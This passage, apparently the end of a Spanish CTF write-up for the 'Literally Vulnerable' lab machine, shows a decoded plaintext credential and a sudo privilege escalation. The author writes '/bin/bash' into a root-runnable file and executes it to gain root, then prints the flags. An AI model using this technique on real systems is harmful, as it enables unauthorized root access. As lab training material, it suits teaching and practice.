 Por lo que vemos eso es un `Base64` que si lo decodificamos veriamos lo siguiente...

```
john:YZW$s8Y49IB#ZZJ
```

Por lo que haremos `sudo -l` y veremos esto...

```
Matching Defaults entries for john on literallyvulnerable:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on literallyvulnerable:
    (root) /var/www/html/test.html
```

Podemos ejecutar eso como `root`, pero si vamos a esa ubicacion vemos que el archivo no esta creado, por lo que haremos lo siguiente...

Nos volvemos a `www-data` para poder crear el archivo `test.html`...

```shell
echo '/bin/bash' > test.html

chmod 777 test.html
```

Una vez hecho esto, nos volvemos al usuario `john` para ejecutarlo...

```shell
sudo /var/www/html/test.html
```

Y con esto ya seriamos `root` por lo que leeremos las flags...

> local.txt (flag2)

```
Congrats, you did it! I hope it was *easy* for you! Keep in mind #EEE is the way to go!
Flag: worjnp1jxh9iefqxrj2fkgdy3kpejp
```

> root.txt (flag3)

```
It was
 _     _ _                 _ _         _   _       _                      _     _      _ 
| |   (_) |               | | |       | | | |     | |                    | |   | |    | |
| |    _| |_ ___ _ __ __ _| | |_   _  | | | |_   _| |_ __   ___ _ __ __ _| |__ | | ___| |
| |   | | __/ _ \ '__/ _` | | | | | | | | | | | | | | '_ \ / _ \ '__/ _` | '_ \| |/ _ \ |
| |___| | ||  __/ | | (_| | | | |_| | \ \_/ / |_| | | | | |  __/ | | (_| | |_) | |  __/_|
\_____/_|\__\___|_|  \__,_|_|_|\__, |  \___/ \__,_|_|_| |_|\___|_|  \__,_|_.__/|_|\___(_)
                                __/ |                                                    
                               |___/                                                     

Congrats, you did it! I hope it was *literally easy* for you! :) 
Flag: pabtejcnqisp6un0sbz0mrb3akaudk

Let me know, if you liked the machine @syed__umar
```
